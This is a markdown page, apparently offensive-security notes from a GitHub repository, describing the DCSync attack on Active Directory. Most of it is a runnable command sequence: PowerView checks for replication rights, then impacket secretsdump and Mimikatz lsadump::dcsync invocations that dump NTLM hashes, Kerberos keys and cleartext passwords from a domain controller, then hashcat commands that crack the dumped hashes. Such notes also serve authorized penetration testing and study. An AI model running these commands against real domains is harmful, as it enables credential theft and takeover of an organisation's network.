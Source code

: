 # DS-Replication-Get-Changes and DS-Replication-Get-Changes-All (Extended Right) **DCSync attack**
**DCSync** is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.
- To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the **Replicating Directory Changes** and **Replicating Directory Changes All** permissions set).
- Domain/Enterprise Admins and default domain administrators have this right by default.
## Check user's Replication Rights
### Using PowerView
1. Identify the target user and verify their group memberships
```powershell
Get-DomainUser -Identity <user> | Select-Object samaccountname, objectsid, memberof, useraccountcontrol | Format-List
```
2. Verify Replication Rights
```powershell
$sid = "S-1-5-21-3842939050-3880317879-2865463114-1164"  # Replace with the actual SID
Get-ObjectAcl "DC=yourdomain,DC=com" -ResolveGUIDs |
    Where-Object { $_.ObjectAceType -match 'Replication-Get' } |
    Where-Object { $_.SecurityIdentifier -match $sid } |
    Select-Object AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType |
    Format-List
```
<img width="1443" height="115" alt="image" src="https://github.com/user-attachments/assets/be6df894-74e1-44c5-9e06-c1ed39261fc3" />

### Using BloodHound
These two permissions (GetChanges + GetChangesAll) allow a principal to perform a DCSync attack.
<img width="2314" height="523" alt="image" src="https://github.com/user-attachments/assets/ee425556-d0cd-4920-b600-e865d618f465" />

## DCSync Attack from Linux (Non-Domain Machine)

```shell
impacket-secretsdump -just-dc-user <username> <domain>/<admin_user>:<password>@<dc_ip>
```
Using Impacket Python 
```shell
secretsdump.py -outputfile domain_hashes -just-dc YOURDOMAIN/targetUser@targetIP
```

- **Parameters:**
    - `YOURDOMAIN`: Replace with your actual domain name.
    - `targetUser`: The username that has replication privileges.
    - `targetIP`: The IP address of the domain controller.
- **What It Does:** Initiates a replication request mimicking a DC. It writes out the NTLM hashes, Kerberos keys, and, if applicable, cleartext passwords to files prefixed with `domain_hashes`.

**After Running, List the Files:**

```bash
ls domain_hashes*
```

- **Expected Files:**
    - `domain_hashes.ntds` – Contains NTLM hashes.
    - `domain_hashes.ntds.kerberos` – Contains Kerberos keys.
    - `domain_hashes.ntds.cleartext` – Contains any cleartext credentials (if reversible encryption is enabled).

## Enumerate that user has the reversible encryption option
```powershell
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```
Using PowerView
```powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```
## DCSync Attack on Windows (Domain-Joined Machine)
1. Launch a Privileged PowerShell Session if we have the username and password that has DCSync rights
**Using runas.exe to open a session as the target user:**
```powershell
runas /netonly /user:YOURDOMAIN\User_With_Access_Rights powershell
```

2. Run Mimikatz in the Elevated Session
**Start Mimikatz:**
```powershell
.\mimikatz.exe
```
**Inside Mimikatz, run the DCSync command:**
```powershell
lsadump::dcsync /domain:YOURDOMAIN.LOCAL /user:YOURDOMAIN\administrator
```
- **What It Does:** Requests replication data for the `administrator` account (or another account of your choice) from the domain controller. Mimikatz will display information including the NTLM hash and other credential details.
**Command**: Dump the NTLM hash of a target user:
```powershell
lsadump::dcsync /user:<domain>\<username>
```
## Cracking NTLM hashes in case the reversible encryption option not checked for users
```shell
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt --force
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
